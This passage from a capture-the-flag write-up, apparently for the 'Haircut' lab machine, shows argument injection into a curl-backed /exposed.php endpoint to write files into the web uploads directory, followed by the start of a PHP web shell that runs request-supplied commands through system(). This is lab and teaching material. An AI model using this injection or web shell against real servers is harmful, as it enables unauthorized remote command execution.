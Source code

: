 Then input the request `http://10.10.14.23:7777/test.txt` into `/exposed.php` to get the following:

![python](./haircut/python.png)

From the output, it seems that `curl` is being used based on the User-Agent. Maybe it is possible to try and insert arguments into the `curl` command from `exposed.php`? try adding the `--help` command line flag to the input for `/exposed.php` to get the following:

![help](./haircut/help.png)

Nice! now this just needs to be made into something exploitable... The `-o` option allows for the output to be saved as a  file. If `curl` can create a file in a web directory, it is possible to get a web shell on the target. Trying the easy location of `/tmp` works with this input `http://10.10.14.23:7777/test.txt -o /tmp/bubba.txt`, but that directory is not being served by the server. Trying `/var/www/html` gives the following error:

![fail](./haircut/fail.png)

The next known directory is `/uploads` and **does not error** with the input `http://10.10.14.23:7777/test.txt -o /var/www/html/uploads/bubba.txt`. Browsing to `http://10.10.10.24/uploads/bubba.txt` now returns `BUBBA`. With this, create the following PHP webshell as `bubba.php`:

```php
<?php
if (isset($_REQUEST['cmd'])) {
  $cmd = $_REQUEST['cmd'];
  executeCommand($cmd);
  die();
}

function executeCommand(string $command) {
  # Try to find a way to run our command using various PHP internals
  if (class_exists('ReflectionFunction')) {
    # http://php.net/manual/en/class.reflectionfunction.php
    $function = new ReflectionFunction('system');
    $function->invoke($command);
  } elseif (function_exists('call_user_func_array')) {
    # http://php.net/manual/en/function.call-user-func-array.php
    call_user_func_array('system', array($command));
  } elseif (function_exists('call_user_func')) {
    # http://php.net/manual/en/function.call-user-func.php
    call_user_func('system', $command);
  } else if(function_exists('passthru')) {
    # https://www.php.net/manual/en/function.passthru.php
    ob_start();
    passthru($command , $return_var);
    $output = ob_get_contents();
```